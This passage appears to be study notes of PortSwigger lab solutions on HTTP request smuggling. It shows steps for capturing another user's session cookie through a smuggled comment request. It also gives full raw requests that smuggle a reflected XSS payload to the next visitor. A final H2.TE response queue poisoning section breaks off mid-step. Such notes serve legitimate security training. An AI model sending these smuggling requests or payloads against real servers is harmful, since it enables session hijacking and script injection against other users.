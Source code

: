 ```
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```
4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5. Copy the user's Cookie header from the comment, and use it to access their account.

# Exploiting HTTP request smuggling to deliver reflected XSS
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss


## Solution
1. Visit a blog post, and send the request to Burp Repeater.
2. Observe that the comment form contains your ``User-Agent`` header in a hidden input.
3. Inject an XSS payload into the ``User-Agent`` header and observe that it gets reflected:
```
"/><script>alert(1)</script>
```
4. Smuggle this XSS request to the back-end server, so that it exploits the next visitor:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

# Response queue poisoning via H2.TE request smuggling
Reference: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

```ad-success
title: Solution
1. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and make sure the protocol is set to HTTP/2 before sending the request.
    ~~~
    POST / HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Transfer-Encoding: chunked 0 SMUGGLED
    ~~~
1. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
    
3. In Burp Repeater, create the following request, which smuggles a complete request to the back-end server. Note that the path in both requests points to a non-existent endpoint. This means that your request will always get a 404 response. Once you have poisoned the response queue, this will make it easier to recognize any other users' responses that you have successfully captured.
    
    ~~~
```